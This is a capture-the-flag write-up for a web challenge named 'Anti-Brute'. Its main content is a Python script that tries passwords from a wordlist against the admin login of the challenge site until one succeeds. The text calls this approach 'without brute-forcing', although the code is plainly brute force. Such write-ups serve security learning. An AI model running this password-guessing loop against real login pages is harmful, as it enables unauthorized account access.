

# Anti-Brute CTF Challenge Writeup

## Challenge Information
- **Name**: Anti-Brute
- **Points**: 340
- **Category**: Web
- **Objective**: The challenge involves bypassing anti-brute force measures to retrieve the flag without brute-forcing.

## Solution
Here's a detailed solution for the Anti-Brute CTF challenge:

1. **Initial Assessment**:
   - Received a wordlist and instructions not to brute force the password.
   - But I brute-forced anyways

2. **Attempted Brute Force**:
   - Tried using Burp Suite's Intruder tool for brute forcing, but it was unsuccessful for unknown reasons.

3. **Python Script**:
   - Created a Python script to automate the process of retrieving the flag without brute-forcing.

      ```python
      import requests

      url = 'https://no-brute.ctf.rawsec.com/login.php'

      headers = {
          'Content-Type': 'application/x-www-form-urlencoded',
      }

      with open('possible_password.txt', 'r') as file:
          for line in file:
              password = line.strip()
              data = {
                  'username': 'admin',
                  'password': password
              }
              response = requests.post(url, headers=headers, data=data)
              if 'Invalid username or password' not in response.text:
                  print(f"Password found: {password}")
                  print(response.text)
                  break
              else:
                  print(f"Trying password: {password}")
      ```

4. **Flag Extraction**:
   - Successfully extracted the flag using the Python script.


        